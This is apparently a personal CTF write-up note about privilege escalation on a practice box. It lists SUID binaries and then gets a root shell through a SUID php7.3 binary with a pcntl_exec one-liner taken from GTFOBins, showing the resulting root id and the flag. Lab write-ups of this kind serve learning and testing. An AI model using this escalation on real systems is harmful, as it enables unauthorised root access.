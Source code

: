 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Penetration Testing - Report
---
```


# Find what commands can be run as root
#suid
  ```
$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

# Rooted
#gtfobins
https://gtfobins.github.io/gtfobins/php/
```
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)

ls /root
flag.txt
cat /root/flag.txt
Good job on this one.
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```

